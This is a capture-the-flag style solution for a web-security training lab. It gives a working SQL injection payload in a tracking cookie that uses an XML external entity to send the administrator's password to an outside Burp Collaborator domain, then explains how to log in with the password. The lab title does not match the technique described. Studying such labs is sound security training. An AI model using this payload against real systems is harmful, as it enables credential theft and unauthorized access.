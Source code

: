 # Lab 14: SQL injection with filter bypass via XML encoding

This **lab** contains a **blind SQL injection** vulnerability. The application uses a **tracking cookie** for analytics and performs a **SQL query** containing the value of the submitted cookie.

- The SQL query is executed **asynchronously** and has **no effect** on the application's visible response.
- However, you can trigger **out-of-band interactions** with an external domain.

---

### 📂 **Target Information**

- The database contains a **table** called `users`.
- The `users` table includes the following **columns**:
    - `username`
    - `password`

---

### 🎯 **Objective**

You must exploit the **blind SQL injection vulnerability** to:

1. Discover the **password** of the `administrator` user.
2. **Log in** as the administrator to solve the lab.

---

> Note
To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.
> 

> **Hint**
You can find some useful payloads on our SQL injection cheat sheet.
> 

### **Solution**

### 🛠️ **Lab Instructions: Exploiting Blind SQL Injection with Out-of-Band Interaction**

### 🔍 Step 1: Intercept the TrackingId Cookie

- Visit the **front page** of the shop.
- Use **Burp Suite Professional** to intercept and modify the request containing the **`TrackingId`** cookie.

---

### 💉 Step 2: Modify the TrackingId with a Payload

- Change the `TrackingId` cookie to the following payload to leak the administrator’s password using an out-of-band interaction:

```sql
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--
```

- Right-click and select **"Insert Collaborator payload"** to insert a Burp Collaborator subdomain in place of `BURP-COLLABORATOR-SUBDOMAIN`.

---

### 🌐 Step 3: Monitor Collaborator for Interactions

- Go to the **Collaborator tab** in Burp.
- Click **"Poll now"**.
- If no interactions appear immediately, **wait a few seconds and try again**, as the query executes **asynchronously**.

---

### 📡 Step 4: Analyze the Interaction

- You should see **DNS and HTTP interactions** initiated by the application.
- The **administrator's password** will appear in the **subdomain** of the interaction:
    - For **DNS**: View the full domain in the **Description tab**.
    - For **HTTP**: View the full domain in the **Host header** in the **Request to Collaborator tab**.

---

### 🔑 Step 5: Log In as Administrator

- In the browser, click **"My account"** to open the **login page**.
- Use the **extracted password** to log in as the `administrator` user.

### **Community solutions**

> [https://youtu.be/KOaDan0UqFs](https://youtu.be/KOaDan0UqFs)
>